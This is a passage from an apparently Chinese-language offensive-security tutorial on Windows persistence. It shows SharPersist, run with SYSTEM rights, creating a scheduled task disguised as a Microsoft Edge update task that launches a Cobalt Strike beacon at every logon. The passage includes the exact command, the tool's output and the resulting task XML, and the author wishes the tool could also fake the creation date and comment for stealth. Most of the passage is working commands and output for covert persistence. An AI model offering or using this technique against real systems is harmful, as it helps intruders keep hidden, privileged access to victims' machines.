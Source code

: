重新登录后是以当前用户高完整性级别运行 Beacon。

![任务计划伪装结果运行展示.png](assets/1708583418-b590872b656b8096c253a78a85a8abd3.png)

#### 2.1.3 自动化创建任务

[SharPersist](https://github.com/mandiant/SharPersist/tree/master) 使用 SYSTEM 权限，自动化创建 MicrosoftEdgeUpdateTaskMachineRelease 任务，触发器选择 logon 登录触发，执行命令 C:\\Users\\123\\Desktop\\beacon.exe。

```plaintext
PS C:\Users\123\desktop> .\SharPersist.exe -t schtask -m add -o logon -n MicrosoftEdgeUpdateTaskMachineRelease -c C:\Users\123\Desktop\beacon.exe

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: Scheduled Task Name: MicrosoftEdgeUpdateTaskMachineRelease
[*] INFO: Option: logon


[+] SUCCESS: Scheduled task added
```

可以看到以 `<UserId>` SYSTEM 权限运行命令，存在创建时间 `<Date>` 2023/04/27 10:05:36，注释和任务名一样。并没想象中好用，如果可以把创建时间和注释选项加上就更好了。

```xml
PS C:\Users\123\desktop> SCHTASKS /Query /TN MicrosoftEdgeUpdateTaskMachineRelease /XML
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2023-04-27T10:05:36.646+08:00</Date>
    <Description>MicrosoftEdgeUpdateTaskMachineRelease</Description>
    <URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="Author">
      <UserId>S-1-5-18</UserId>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <IdleSettings>
      <Duration>PT10M</Duration>
      <WaitTimeout>PT1H</WaitTimeout>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
  </Settings>
  <Triggers>
    <LogonTrigger />
  </Triggers>
  <Actions Context="Author">
    <Exec>
      <Command>C:\Users\123\Desktop\beacon.exe</Command>
    </Exec>
  </Actions>
```